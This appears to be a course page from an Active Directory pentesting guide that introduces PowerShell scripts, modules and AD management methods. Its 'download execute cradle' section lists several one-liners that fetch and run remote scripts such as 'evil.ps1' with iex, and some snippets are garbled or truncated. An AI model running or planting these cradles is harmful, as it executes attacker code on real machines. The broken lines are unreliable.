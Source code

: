 # 2.1 - Introduction to PowerShell

## **What is PowerShell?**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4" %}
[https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4](https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4)
{% endembed %}

**PowerShell** is a powerful scripting and automation platform developed by Microsoft. It combines the flexibility of a scripting language with the functionality of a command-line shell, enabling users to manage systems, automate repetitive tasks, and access system components programmatically.

* **Cross-Platform**: Available on Windows, macOS, and Linux.
* **Object-Oriented**: Operates with objects instead of plain text, allowing for more precise and flexible scripting.
* **Integration**: Seamlessly integrates with .NET and other Microsoft technologies.
* **Use Cases**: Ideal for administrative tasks, system configuration, and cybersecurity operations.

<div align="left"><figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption><p><a href="https://pbs.twimg.com/media/Duju2mhX4AE6a0u.jpg:large">https://pbs.twimg.com/media/Duju2mhX4AE6a0u.jpg:large</a></p></figcaption></figure></div>

{% embed url="https://www.stationx.net/powershell-cheat-sheet/" %}
[https://www.stationx.net/powershell-cheat-sheet/](https://www.stationx.net/powershell-cheat-sheet/)
{% endembed %}

## **Core Components**

### **Scripts**

**Scripts**: `.ps1` files containing PowerShell commands for automating tasks.

*   A script to list all running services:

    ```powershell
    Get-Service | Where-Object { $_.Status -eq "Running" }
    ```
* Load a PowerShell script using dot sourcing:

```powershell
C:\AD\Tools|PowerView.ps1
```

* Download execute [cradle](https://github.com/danielbohannon/Invoke-CradleCrafter)

```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1') sponse
```

```powershell
$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1 ');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $re
```

```powershell
PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')
```

```powershell
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```

```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

Check out Invoke-CradleCrafter:

{% embed url="https://github.com/danielbohannon/Invoke-CradleCrafter" %}
[https://github.com/danielbohannon/Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)
{% endembed %}



* Load a PowerShell script using dot sourcing:

```powershell
C:\AD\Tools|PowerView.ps1
```

### **Modules**

**Modules**: Packages of reusable cmdlets, scripts, and resources.

* Popular modules include:
  * `ActiveDirectory`: Manages AD objects.
  * `Pester`: For testing scripts.
  * `PSReadLine`: Enhances the shell experience.
* Install with:

```powershell
Install-Module -Name ModuleName
```

* A module (or a script) can be imported using:

```powershell
Import-Module C:\AD\Tools|AdModule-master\ActiveDirectory\ActiveDirectory.psd1
```

* All the commands into a module can be listed using:

```powershell
Get-Command -Module <modulename>
```

## **PowerShell for Active Directory (AD)**

PowerShell is a primary tool for managing AD environments.

#### **ADSI (Active Directory Service Interfaces)**

ADSI is a set of COM interfaces for interacting with directory services like Active Directory. It enables querying, modifying, and managing directory objects without requiring additional modules. PowerShell can use ADSI for lightweight operations, especially on systems without the AD module. ADSI uses LDAP paths to locate objects and execute changes. It is versatile but requires knowledge of directory structure and object attributes. Common use cases include user management, password resets, and retrieving directory information. ADSI is powerful for automation in legacy environments or restrictive setups.

#### **.NET Classes for AD**

.NET classes in PowerShell provide direct access to Active Directory operations via the .NET Framework. Key classes like `DirectorySearcher` and `DirectoryEntry` allow querying and managing directory objects. These classes offer fine-grained control over AD queries and modifications. Unlike cmdlets, .NET classes require coding expertise but are highly flexible. They are useful for advanced scenarios like custom searches or handling large datasets. .NET integration with PowerShell allows developers to bypass module dependencies. This approach is ideal for scripting in environments with strict constraints.

**Native Executables**

Native executables like `dsquery`, `net user`, and `nltest` interact directly with Active Directory without PowerShell. They are pre-installed on Windows systems, making them a reliable fallback. These tools are useful for quick queries, user enumeration, or domain configuration checks. For example, `dsquery` retrieves specific AD objects, while `net user` checks group memberships. Native executables can be used in combination with PowerShell for hybrid scripts. They are particularly valuable in environments where PowerShell use is restricted. However, they are less script-friendly compared to PowerShell cmdlets or .NET classes.

**4. WMI (Windows Management Instrumentation) with PowerShell**

WMI is a Windows management framework for accessing system and network information, including Active Directory. PowerShell leverages WMI to query or modify system and directory data remotely. Common uses include querying system information, AD containers, or domain-related data. WMI supports cross-system communication, making it useful for remote administration. It uses namespaces and classes like `DS_Container` to access directory objects. WMI is efficient for real-time monitoring and automation tasks. It is especially valuable in environments where standard AD tools are unavailable.

**5. Active Directory Module (AD Module)**

The AD module is a PowerShell module providing cmdlets for seamless Active Directory management. It simplifies complex AD operations, such as querying users (`Get-ADUser`) or managing groups (`Add-ADGroupMember`). The module integrates tightly with the AD schema, ensuring compatibility and ease of use. It is ideal for administrators who prefer high-level commands over low-level scripting. Common administrative tasks, like resetting passwords or managing group policies, are easily automated. The AD module requires installation on systems that need to run AD-specific cmdlets. It is a go-to tool for modern AD management via PowerShell.

### **Common AD Tasks**

*   **Querying AD Objects**:

    ```powershell
    Get-ADUser -Filter * -SearchBase "OU=IT,DC=example,DC=com"
    ```
*   **Modifying Users or Groups**:

    ```powershell
    New-ADUser -Name "John Doe" -SamAccountName "jdoe" -UserPrincipalName "jdoe@example.com"
    Add-ADGroupMember -Identity "IT_Group" -Members "jdoe"
    ```

### **Benefits of PowerShell with AD**

1. Automation of repetitive administrative tasks.
2. Bulk modifications (e.g., importing users from CSV).
3. Real-time monitoring and auditing through queries.
